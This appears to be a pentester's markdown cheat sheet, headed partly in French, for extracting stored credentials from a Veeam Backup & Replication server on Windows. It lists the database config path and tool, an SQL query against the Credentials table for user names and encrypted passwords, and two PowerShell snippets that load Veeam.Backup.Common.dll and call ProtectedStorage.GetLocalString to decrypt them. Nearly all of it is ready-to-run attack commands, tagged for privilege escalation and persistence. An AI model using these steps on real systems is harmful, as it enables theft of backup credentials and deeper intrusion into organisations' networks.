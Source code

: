 # saz-veeam.md

#plateform/windows
#target/local
#cat/PRIVESC
#cat/PERSIST
#cat/SAJJAD
#tag/curl

## VEEAM Get DataBase (DIR)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\
```

## VEEAM Get DataBase (Run As Administrator)
```
C:\Program Files\Common Files\Veeam\Backup and Replication\DBConfig\Veeam.Backup.DBConfig.exe
```

## VEEAM - Récupérer les MDP DB step 1/2: SQL
```
SELECT TOP 100 [id], [user_name], [password], [usn], [description], [visible], [change_time_utc] FROM [VeeamBackup_New].[dbo].[Credentials];
```

## VEEAM - Récupérer les MDP DB step 2/2: PowerShell
```
Add-Type -Path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"; [Veeam.Backup.Common.ProtectedStorage]::GetLocalString("<PASSWORD_HASH>")
```


## VEEAM - Récupérer les MDP DB step 2/2 (2): PowerShell
```
"$encoded= "<PASSWORD_HASH>""
Add-type -path "C:\Program Files\Veeam\Backup and Replication\Backup\Veeam.Backup.Common.dll"
[Veeam.Backup.Common.ProtectedStorage]::GetLocalString($encoded)
```